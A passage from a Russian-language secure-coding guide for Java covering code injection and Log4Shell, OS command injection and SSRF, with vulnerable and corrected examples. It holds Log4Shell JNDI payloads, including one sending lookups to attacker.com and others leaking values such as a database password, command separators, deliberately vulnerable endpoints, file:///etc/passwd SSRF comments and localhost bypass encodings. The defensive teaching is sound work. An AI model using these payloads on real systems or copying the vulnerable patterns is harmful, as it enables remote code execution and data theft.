

### 3.6. Дополнительная литература
1. CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')
https://cwe.mitre.org/data/definitions/89.html
2. SQL injection для начинающих. Часть 1
https://habr.com/ru/post/148151/
3. SQL Injection Prevention Cheat Sheet
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
4. Injection Prevention Cheat Sheet in Java¶
https://cheatsheetseries.owasp.org/cheatsheets/Java_Security_Cheat_Sheet.html#injection-prevention-in-java
5. Input Validation Cheat Sheet
https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
6. Enterprise Security API (ESAPI) Java
https://www.denimgroup.com/media/pdfs/DenimGroup_ESAPI_SATJUG_20100603.pdf
7. Java Code Examples for org.owasp.esapi.ESAPI
https://www.programcreek.com/java-api-examples/?api=org.owasp.esapi.ESAPI
8. How does one escape special characters when writing SQL queries?
http://www.orafaq.com/wiki/SQL_FAQ#How_does_one_escape_special_characters_when_writing_SQL_queries.3F
9. JPA Query Parameters Usage
https://www.baeldung.com/jpa-query-parameters

***

## 4. CWE-94: Improper Control of Generation of Code ('Code Injection')

Code Injection - это общий термин для типов атак, которые заключаются в инъекции кода, который затем интерпретируется/исполняется приложением.

Удаленное выполнение кода (RCE, Remote code execution) – это признанная OWASP уязвимость, которая позволяет злоумышленникам удаленно запускать вредоносный код на целевой системе.

Этот тип атак использует плохую обработку недоверенных данных. Обычно такие атаки становятся возможными из-за отсутствия надлежащей проверки входных/выходных данных, например:
* разрешенные символы (стандартные классы регулярных выражений или пользовательские)
* формат данных
* объем ожидаемых данных

Code Injection отличается от Command Injection тем, что злоумышленник ограничен только функциональностью самого внедряемого языка. Если злоумышленник может внедрить PHP-код в приложение и добиться его выполнения, он ограничен только возможностями PHP.

### 4.1. Class.forName

В Java, например, для выполнения произвольного кода может использоваться `Class.forName("className")`. Метод `forName` используется для загрузки классов, неизвестных в момент компиляции. При загрузке класса автоматически выполняется код из блока `static {}`, что дает возможность злоумышленнику выполнить любой код, например:

```java
public class evilClass {
    static {
        try {
            Runtime.getRuntime().exec("cmd /c calc.exe");
        } catch (IOException ignored) {
        }
    }
}

public class Main {
    public static void main(String[] args) throws ClassNotFoundException {
        System.out.println("Hello world!");
        Class.forName("org.example.evilClass");
    }
}
```

### 4.2. logger.*

Один из самых популярных примеров RCE это Log4j Log4Shell 0-Day Vulnerability. Данная CWE часто детектируется PT AI в исходном коде приложений ППОД.

В Apache Log4j 2, популярном фреймворке для организации ведения логов в Java-приложениях, имеется критическая уязвимость, позволяющая выполнить произвольный код при записи в лог специально оформленного значения в формате `{jndi:URL}`. Атака может быть проведена на Java-приложения, записывающие в лог значения, полученные из внешних источников, например, при выводе проблемных значений в сообщениях об ошибках.

Проблема была вызвана тем, что Log4j 2 поддерживает обработку специальных масок `{}` в выводимых в лог строках, позволяющих выполнять различные lookups вида `${prefix:name}`, где name – вычисляемый параметр. Например, `${java:version}` или `${jndi:ldap}`

Примеры Payloads:
```java
# Identify Java version and hostname
${jndi:ldap://${java:version}.domain/a}
${jndi:ldap://${env:JAVA_VERSION}.domain/a}
${jndi:ldap://${sys:java.version}.domain/a}
${jndi:ldap://${sys:java.vendor}.domain/a}
${jndi:ldap://${hostName}.domain/a}
${jndi:dns://${hostName}.domain}
# More enumerations keywords and variables
java:os
docker:containerId
web:rootDir
bundle:config:db.password
```
JNDI, или же Java Naming and Directory Interface, представляет собой Java API для доступа к службам имен и каталогов. Служба имен и каталогов — это система, которая управляет отображением множества имен во множестве объектов. Наиболее наглядным примером такой службы является файловая система. В файловой системе мы взаимодействуем с именами файлов, за которыми скрываются объекты — сами файлы в различных форматах. В службе имен и каталогов именованные объекты собраны в древовидную структуру.



JNDI нужен для того, чтобы мы могли из Java-кода получить Java-объект из некоторой "Регистратуры" объектов по его имени.
Из популярных примеров служб имен и каталогов (поддерживаемые JNDI) можно выделить LDAP, DNS, RMI и т.д.
Атака сводится к передаче строки с подстановкой `${jndi:ldap://attacker.com/a}`, при обработке которой Log4j 2 отправит на сервер attacker.com LDAP-запрос пути к Java-классу. Возвращённый сервером атакующего путь (например, http://second-stage.attacker.com/Exploit.class) будет загружен и выполнен в контексте текущего процесса, что позволяет атакующему добиться выполнения произвольного кода в системе с правами текущего приложения.



Подробнее об RMI/LDAP сервере и схеме загрузки payload см. https://www.veracode.com/blog/research/exploiting-jndi-injections-java

Пример кода:

```java
@RestController
public class VulnApp {
    private static final Logger logger = LogManager.getLogger("vulnApp");

    @GetMapping("/")
    public String index(@RequestHeader("X-Api-Version") String apiVersion) {
        logger.info("Received a request for API version " + apiVersion);
        return "Hello, world!";
    }
}
```

Пример эксплуатации уязвимости Log4Shell приведен в приложении 1.

#### 4.2.1. Условия для появления уязвимости:
* Java приложение использует log4j (Maven package log4j-core) версии 2.0.0-2.12.1 или 2.13.0-2.14.1
  * Версия 2.12.2 не подвержена уязвимости, так как получила исправления, перенесенные из версии 2.16.0.
* Злоумышленник может вызвать запись в журнал произвольных строк с помощью одного из API протоколирования – logger.info(), logger.debug(), logger.error(), logger.fatal(), logger.log(), logger.trace(), logger.warn(). 
* Никаких специфических для Log4j мер по исправлению уязвимости не применяется (см. раздел “Mitigations” в https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/):
  * Отключение lookups
  * Удаление уязвимых классов
* (на некоторых машинах) Используемая версия Java JRE / JDK старше следующих версий: 6u211, 7u201, 8u191, 11.0.1

### 4.3. Защитные меры

Для предотвращения Code Injection необходимо:

1. Не допускать попадания пользовательского ввода в такие методы, как Class.forName и logger.info(), logger.debug(), logger.error(), logger.fatal(), logger.log(), logger.trace(), logger.warn();
2. Не использовать библиотеку log4j ниже версии 2.16.0, за исключением 2.12.2;
3. Если невозможно применить указанные в п.п. 1 и 2 меры, необходимо производить санитизацию/ валидацию передаваемых в методы пользовательских значений.

### 4.4. Дополнительная литература

Тренажер по данной CVE:
https://application.security/free-application-security-training/understanding-apache-log4j-vulnerability

Источники:
1. https://docs.oracle.com/javase/7/docs/api/java/lang/Class.html
2. https://russianblogs.com/article/9324971904/
3. https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/
4. https://www.veracode.com/blog/research/exploiting-jndi-injections-java
5. https://github.com/pimps/JNDI-Exploit-Kit
6. https://www.opennet.ru/opennews/art.shtml?num=56319
7. https://www.trendmicro.com/ru_ru/what-is/apache-log4j-vulnerability.html
8. https://www.kitploit.com/2022/02/jndi-injection-exploit-tool-which.html
9. https://qwiet.ai/log4shell-jndi-injection-via-attackable-log4j/
10. https://github.com/christophetd/log4shell-vulnerable-app

Полезные ссылки:

1. https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf
2. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Log4Shell.md
3. https://github.com/fullhunt/log4j-scan
4. https://github.com/lucy9x/JNDI-Exploit-Kit
5. https://github.com/Jeromeyoung/JNDIExploit-1

***

## 5.	CWE-77: Improper Neutralization of Special Elements used in a Command ('Command Injection')



В данную категорию так же входят:
* CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')
* CWE-88: Improper Neutralization of Argument Delimiters in a Command ('Argument Injection')

### 5.1. Описание

Данные уязвимости обычно возникают, когда:
1. Данные попадают в приложение из недоверенного источника;
2. Данные являются частью строки, которая выполняется приложением как команда;
3. Выполнив команду, приложение предоставляет злоумышленнику привилегии или возможности, которых у него иначе не было бы.

Существует два основных подтипа OS Command Injection:

1. Внешние данные в качестве аргументов
	
Приложение выполняет фиксированную программу, которая находится под его контролем и принимает внешние данные в качестве аргументов для этой программы.

_Пример:_ Программа использует вызов `system("nslookup [HOSTNAME]")` для запуска `nslookup`, а в качестве аргумента пользователь указывает `HOSTNAME`. Хакер не может предотвратить выполнение `nslookup`, но, если программа не удаляет разделители из аргумента `HOSTNAME`, переданного извне, злоумышленник может поместить разделители внутрь аргумента и выполнить свою собственную команду.

В качестве разделителей могут использоваться:

Windows и Unix-based OS:
* &
* &&
* |
* ||

Только Unix-based OS:
* ;
* Newline (0x0a or \n)

Для вставки подзапроса в исходную команду используются символы `$` и \` :
* $(injected command)
* \`injected command\`

2. Внешние данные в качестве команды

Приложение использует входные данные для выбора программы для запуска и команд. Приложение дезинфицирует вводимые данные, а затем просто перенаправляет всю команду операционной системе.
Пример: Приложение использует `exec([COMMAND])`, в то время как `[COMMAND]` поступает из внешнего источника. Хакер, контролирующий аргумент `[COMMAND]`, может выполнять произвольные команды или программы в системе.

### 5.2. Потенциальное воздействие

Злоумышленник может использовать эту слабость для выполнения произвольных команд, раскрытия конфиденциальной информации и отказа в обслуживании. Любые вредоносные действия будут исходить от уязвимого приложения и выполняться в контексте безопасности этого приложения.

Пример эксплуатации:

Вводимый пользователем IP адрес подставляется в команду с помощью конкатенации строк.

```java
@GetMapping("/ping")
public String executePingCommand(@RequestParam String ip) throws IOException {
    String command = "cmd /c ping -n 1 " + ip;
    Process p = Runtime.getRuntime().exec(command);

    BufferedReader input = new BufferedReader(new InputStreamReader(p.getInputStream()));

    String line;
    StringBuilder sb = new StringBuilder();
    
    while ((line = input.readLine()) != null) {
        sb.append(line).append("\n");
    }
    input.close();
    return sb.toString();
}
```

Используя разделитель `&` (`%26`) можно передать несколько произвольных команд:



### 5.3. Защитные меры

#### 5.3.1. Стандартные библиотеки и функции Java

Самый эффективный способ предотвратить уязвимости инъекции команд ОС - никогда не обращаться к командам ОС из кода прикладного уровня. Почти во всех случаях существуют различные способы реализации требуемой функциональности с помощью более безопасных API-интерфейсов платформы.

Например, для вывода содержимого каталога вместо
```java
String comm = "cmd.exe /c dir " + user_path;
Process process = Runtime.getRuntime().exec(comm);
```
Используйте
```java
Files.list(new File(user_path).toPath())
        .limit(10)
        .forEach(System.out::println);
```

#### 5.3.2. ProcessBuilder

Если выполнение команд ОС избежать невозможно, используйте java.lang.ProcessBuilder.

>Важно! Команда и каждый из аргументов должен передаваться отдельно. В таком случае, все, что следует за основной командой, будет расцениваться как аргументы, и экранироваться, в случае необходимости.

>Важно! Некоторые команды поддерживают параметры, позволяющие в качестве аргумента передавать и выполнять дополнительные команды. Например,
`find . -exec /bin/sh`
или
`man man`
`!/bin/sh`
Полный список таких команд представлен на ресурсе https://gtfobins.github.io/
В случае необходимости использования одной из таких команд, необходимо дополнительно валидировать пользовательский ввод на предмет содержания параметров, позволяющих выполнять дополнительные команды.

#### *Пример 1. Некорректное использование*
В данном случае введенный пользователем IP конкатенируется с основной командой ping. В результате получившаяся строка воспринимается как отдельная команда, а не команда с определенным и заранее известным набором аргументов, что позволяет эксплуатировать слабость, используя разделители.
```java
@GetMapping("/pingPb1")
public String pingProcessUnsafe(@RequestParam String ip) throws IOException {
    ProcessBuilder pb = new ProcessBuilder("cmd", "/c", "ping -n 1 " + ip);
    Process p = pb.start();
```

#### *Пример 2. Корректное использование*
Не включайте аргументы команды в командную строку, вместо этого используйте параметризацию:
```java
@GetMapping("/pingPb2")
public String pingProcessSafe(@RequestParam String ip) throws IOException {
    ProcessBuilder pb = new ProcessBuilder("cmd", "/c", "ping -n 1", ip);
    Process p = pb.start();
```

#### *Пример 3. Корректное использование*
В данном примере производится проверка команды по белому списку. Т.к. в белом списке имеется команда `find`, позволяющая передать параметр `–exec { command}`, реализована дополнительная проверка аргументов по черному списку.

```java
static {
    allowedCommands.add("pwd");
    allowedCommands.add("ls");
    allowedCommands.add("ps");
    allowedCommands.add("find");
    allowedCommands.add("uname");
    allowedCommands.add("free");
    allowedCommands.add("df");
    allowedCommands.add("locate");
    allowedCommands.add("hostname");

    denyArguments.add("-exec");
}

@GetMapping("/cmdSafety")
public String execCommandSafety(
        @RequestParam(value = "command") String command,
        @RequestParam(value = "args[]", required = false) List<String> args) throws IOException {
    final List<String> cmd = new ArrayList<>();

    if (command == null || command.isEmpty()) {
        throw new IllegalArgumentException("Укажите команду");
    }
    command = command.trim().toLowerCase();

    if (!allowedCommands.contains(command)) {
        throw new IllegalArgumentException("Недопустимая команда");
    }

    cmd.add(command);

    if (args != null) {
        for (String arg : args) {
            if (denyArguments.contains(arg.trim().toLowerCase())) {
                throw new IllegalArgumentException("Недопустимый аргумент");
            }
        }
        cmd.addAll(args);
    }

    ProcessBuilder pb = new ProcessBuilder(cmd);
    
    // ... start process, handle exit value, input and error streams, return result
}
```

#### 5.3.3. Input validation
В крайнем случае, если отсутствует возможность использования `ProcessBuilder`, можно воспользоваться `Runtime.getRuntime().exec(command)`, предварительно проверив команду по черным/ белым спискам и проверив на наличие опасных спец. символов ``& |  ; $ > < ` \ ! ' " ( ) 0x0a`` с помощью регулярных выражений:

```java
static Set<String> allowedCommands = new HashSet<>();
static Set<String> denyArguments = new HashSet<>();

static {
    allowedCommands.add("pwd");
    allowedCommands.add("ls");
    allowedCommands.add("ps");
    allowedCommands.add("find");
    allowedCommands.add("uname");
    allowedCommands.add("free");
    allowedCommands.add("df");
    allowedCommands.add("locate");
    allowedCommands.add("hostname");

    denyArguments.add("-exec");
}


@GetMapping("/cmdRuntimeSafe")
public String execRuntimeCommandSafety(@RequestParam String inputCmd) throws IOException {
    if (inputCmd == null || inputCmd.isEmpty()) {
        throw new IllegalArgumentException("Укажите команду");
    }

    if (Pattern.matches("^.*(([&|;$><`\\\\!'\"()])|(0x0[Aa])).*$", inputCmd)) {
        System.out.println("Недопустимая команда");
    }

    final String[] command = inputCmd.split(" ");

    if (!allowedCommands.contains(command[0].toLowerCase())) {
        throw new IllegalArgumentException("Недопустимая команда");
    }
    for (String arg : command) {
        if (denyArguments.contains(arg.toLowerCase())) {
            throw new IllegalArgumentException("Недопустимый аргумент");
        }
    }
    // ... start process, handle exit value, input and error streams, return result
```

Так же опасные спец. символы можно удалить, или заменить на безопасные:
```java
String strip = inputCmd.replaceAll"[&|;$><`\\\\!'\"()]+","");
String strip2 = inputCmd.replaceAll("[^a-zA-Z 0-9]","");
String escape = inputCmd.replaceAll("[^a-zA-Z 0-9]","_");
```

### 5.4.  В заключении
Для предотвращения CWE-77: 'Command Injection' необходимо выполнять следующие рекомендации:
1.	Используйте безопасные API-интерфейсы платформы вместо прямого вызова команд ОС;
2.	Используйте структурированные механизмы, которые автоматически обеспечивают разделение данных и команд (параметризацию). Например - `java.lang.ProcessBuilder`;
3.	Проверяйте команды и аргументы по белым и/или черным спискам;
4.	Не допускайте наличие символов ``& |  ; $ > < ` \ ! ' " ( ) 0x0a`` во входных данных;
5.	Используйте принцип наименьших привилегий для учетной записи, под которой работает приложение.

***

## 6. CWE-918: Server-Side Request Forgery (SSRF)



### 6.1. Описание

Server-Side Request Forgery — это дефект безопасности, который позволяет злоумышленнику отправлять запросы от имени скомпрометированного сервера.

Например, риск атаки SSRF может возникнуть, если приложение для формирования запросов использует непроверенные внешние данные. Злоумышленник может спровоцировать отправку вредоносных запросов к ресурсам, которые не доступны напрямую ему самому, но доступны серверу.

Ещё один вариант эксплуатации SSRF – маскировка запросов. Злоумышленник "прикрывается" уязвимым сервером (посредником), для выполнения запросов к другому серверу (целевому). В таком случае со стороны целевого сервера будет казаться, что все запросы инициируются посредником, хотя он является лишь промежуточным звеном.

Стоит отметить:
* SSRF не ограничивается протоколом HTTP. Как правило, первым запросом является HTTP, но в случаях, когда приложение само выполняет второй запрос, оно может использовать различные протоколы (например, FTP, SMB, SMTP и т. д.) и схемы (например, file://, dict://, sftp://,  ldap://, tftp://, gopher:// и т. д.).
* Если приложение уязвимо к инъекции XML eXternal Entity (XXE), то это может быть использовано для проведения SSRF-атаки.

Если злоумышленник может контролировать направление запросов на стороне сервера, он потенциально может выполнить следующие действия:
* Злоупотреблять доверительными отношениями между уязвимым сервером и другими серверами;
* Обходить ограничения на основе белых списков IP-адресов;
* Обходить службы аутентификации на основе хоста;
* Читать ресурсы, недоступные для публичного доступа, такие как trace.axd в ASP.NET или API метаданных в среде AWS;
* Сканировать внутренние сети, к которым подключен уязвимый сервер;
* Считывать файлы с веб-сервера;
* Просматривать страницы состояния и взаимодействовать с API от имени уязвимого веб-сервера;
* Получать конфиденциальную информацию, например, IP-адреса веб-сервера, находящегося за обратным прокси.

Типичная схема эксплуатации уязвимости подделки запросов на стороне сервера:



### 6.2. Защитные меры

Для предотвращения подделки запросов на стороне сервера (SSRF) необходимо выполнять следующие рекомендации:
1.	Используйте белый список разрешенных доменов и протоколов, из которых веб-сервер может получать удаленные ресурсы
> Не используйте черный список! У черных списков и regex одна и та же проблема: кто-то рано или поздно найдет способ их обойти (см. п.3).

> Данный метод не защитит от атак типа TOCTOU (Time of Check to Time of Use).
Проблема в том, что IP-адрес запрашивается дважды: первый раз для его проверки, а второй - для выполнения запроса. Очень просто создать DNS-сервер, который будет отвечать другим IP-адресом на каждый второй запрос. В этом случае при проверке IP-адреса он может оказаться внешним IP-адресом и пройти проверку, но затем, когда будет сделан запрос, имя хоста разрешится в опасный внутренний адрес, что позволит повысить уровень SSRF.

2. Избегайте использования пользовательского ввода непосредственно в функциях, которые могут выполнять запросы от имени сервера;
3. Выполняйте очистку и фильтрацию пользовательского ввода

>Важно!
Данный метод крайне не рекомендуется применять, т.к. практически невозможно охватить все различные сценарии, например, злоумышленник может использовать закодированные IP-адреса, которые будут преобразованы в IP во внутренней сети:
>* http://localhost:80
>* http://127.0.0.1:80
>* http://0.0.0.0:80
>* http://[::]:80/
>* http://[0000::1]:80/
>* http://0/
>* http://⓵⓶⓻.⓪.⓪.⓵/

>Больше примеров на
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery
и
https://0xn3va.gitbook.io/cheat-sheets/web-application/server-side-request-forgery
4. Не отправляйте необработанное тело ответа от сервера клиенту
5. Принудительно используйте только необходимые схемы URL:
Разрешите только те схемы URL, которые использует ваше приложение. Нет необходимости разрешать ftp://, file:/// или даже http://, если вы используете только https://;
6. Включайте аутентификацию для всех служб:
Убедитесь, что аутентификация включена для всех служб, работающих в вашей сети.

### 6.3. Примеры

#### *Пример 1. Некорректное использование*
В данном примере отсутствуют какие-либо проверки пользовательского ввода, а сам результат выполнения запроса просто перенаправляется пользователю.

```java
@GetMapping("open-stream-unsafe")
// test on http://httpforever.com or http://example.com to prevent SSL exceptions
public String openStreamToRemoteObjectUnsafe(@RequestParam String location) throws Exception {
    URL url = new URI(location).toURL();
    BufferedReader reader = new BufferedReader(new InputStreamReader(url.openStream()));
    return reader.lines().collect(Collectors.joining());
}
```

#### *Пример 2. Некорректное использование*
В данном случае, например, используя схему `file://` можно получить доступ к локальным файлам.
```java
@GetMapping("download-file-unsafe")
public void downloadFileUnsafe(String location, HttpServletResponse response) throws IOException, URISyntaxException {
    // remote image: /ssrf/download-file-unsafe?location=http://eu.httpbin.org/image/jpeg
    // SSRF exp: location=file:///G:/work/new_ptai_policy.json
    // SSRF exp: location=file:///etc/passwd
    URL url = new URI(location).toURL();
    response.setHeader("content-disposition", "attachment;fileName=" + url.getFile());
    int length;
    byte[] bytes = new byte[1024];
    InputStream inputStream = url.openStream(); // send request
    OutputStream outputStream = response.getOutputStream();
    while ((length = inputStream.read(bytes)) > 0) {
        outputStream.write(bytes, 0, length);
    }
}
```

#### *Пример 3. Корректное, но не рекомендуемое использование*
В данном примере производится проверка протокола и IP адреса. Использовать не рекомендуется, т.к. это вариация черного списка.
```java
    @GetMapping("download-file-safe")
    public void downloadFileSafe(@RequestParam String location, HttpServletResponse response) throws Exception {
        // Проверяем протокол, запрещаем локальные адреса и отключаем редиректы.
        // Не рекомендуется использовать, т.к. это по сути вариант черного списка
        // Данный метод не защитит от атак типа TOCTOU (Time of Check to Time of Use)
        URL url = new URI(location).toURL();
        InetAddress inetAddress = InetAddress.getByName(url.getHost());

        if (!url.getProtocol().startsWith("http")) {
            // Возвращать клиенту ошибку нельзя, это только для примера
            response.getWriter().write("Wrong protocol: " + url.getProtocol());
            response.setStatus(HttpServletResponse.SC_FORBIDDEN);
//            throw new Exception("Forbidden remote source");

        } else if (inetAddress.isAnyLocalAddress() || inetAddress.isLoopbackAddress() || inetAddress.isLinkLocalAddress()) {
            response.getWriter().write("Wrong ip address: " + inetAddress);
            response.setStatus(HttpServletResponse.SC_FORBIDDEN);

        } else {// All checks OK. Processing...
            HttpURLConnection conn = (HttpURLConnection) url.openConnection();
            conn.setInstanceFollowRedirects(false);
            conn.connect();
            conn.getInputStream().transferTo(response.getOutputStream());
        }
    }
```

#### *Пример 4. Корректное использование – белый список*
```java
@GetMapping("open-stream-safe")
// test on http://httpforever.com or http://example.com to prevent SSL exceptions
public String openStreamToRemoteObjectSafe(@RequestParam String location) throws Exception {
    URL url = new URI(location).toURL();

    if (!url.getHost().equals("example.com") ||
            !url.getProtocol().equals("http") && !url.getProtocol().equals("https")) {
        throw new Exception("Forbidden remote source");
    }

    BufferedReader reader = new BufferedReader(new InputStreamReader(url.openStream()));
    return reader.lines().collect(Collectors.joining());
}
```

#### *Пример 5. Некорректное использование*
